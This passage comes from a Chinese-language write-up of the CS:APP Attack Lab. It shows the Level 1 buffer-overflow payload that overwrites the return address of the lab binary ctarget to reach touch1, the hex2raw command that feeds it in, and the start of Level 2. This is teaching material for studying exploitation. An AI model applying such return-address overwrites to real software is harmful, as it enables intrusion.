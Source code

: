 <table border="1" style="width:30%; text-align:center; margin:auto">
    <tr height="40">
        <td colspan="2">0x4017c0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0<span style="float:right">(%rsp)</span></td>
    </tr>
</table>


因此编写 exploit.11.txt：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 /* 0x4017c0 <touch1> */
```

前面 40 字节是什么不重要，最后 8 个字节按照 little endian 的规则逆向填入。



#### 运行结果

执行命令 `./hex2raw < exploit.11.txt > exploit-raw.11.txt`，将 exploit.11.txt 中的 hex-formatted string 转换成 raw string，利用 I/O 重定向 将 exploit-raw.11.txt 中的 raw string 传入ctarget。

<img src="https://gitee.com/dq-agj/imags/raw/master/img/image-20230816153718667.png" alt="image-20230816153718667" style="zoom:67%;" />

------



### Level 2

#### 任务

"Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument."

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
